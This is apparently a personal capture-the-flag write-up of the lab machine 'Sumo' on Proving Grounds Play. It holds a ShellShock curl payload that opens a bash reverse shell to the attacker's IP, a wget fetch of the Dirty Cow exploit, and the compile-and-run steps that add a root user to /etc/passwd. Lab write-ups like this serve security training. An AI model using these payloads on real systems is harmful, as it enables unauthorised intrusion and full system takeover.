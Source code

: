 # PG Play - Sumo

#### Ip: 192.168.235.211
#### Name: Sumo
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ sudo nmap -p-  --min-rate 10000 192.168.234.87 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 12:56 CDT
Nmap scan report for 192.168.234.87
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.46 seconds
```

Taking a look at the page on port 80 we find a static, generic It Works page:

site.png

Kicking off a Nikto scan against the target, we find a `/cgi-bin/test` directory and Nikto indicates it may be vulnerable to ShellShock.

nikto.png

Lets try to exploit this.

### Exploitation

We can exploit this using curl:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.177/443 0>&1" \http://192.168.234.87/cgi-bin/test 
```

And get a shell on the back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.234.87] 54270
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ hostname
hostname
ubuntu
```

From here I can grab the local.txt flag:

user_flag.png

### Privilege Escalation

Transfering over LinPEAS, we see that the box is vulnerable to Dirty Cow:

lp.png

We can transfer the exploit over, but get an error when trying to compile:

```text
www-data@ubuntu:/tmp$ wget http://192.168.45.177/dirtycow.c
wget http://192.168.45.177/dirtycow.c
--2023-09-11 11:18:03--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

     0K ....                                                  100%  778K=0.006s

2023-09-11 11:18:03 (778 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
gcc -pthread dirtycow.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

To fix this we'll need to update the path:

```text
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

We can now compile and run the exploit:

```text
www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7fb55734a000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Nice, that worked. Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------------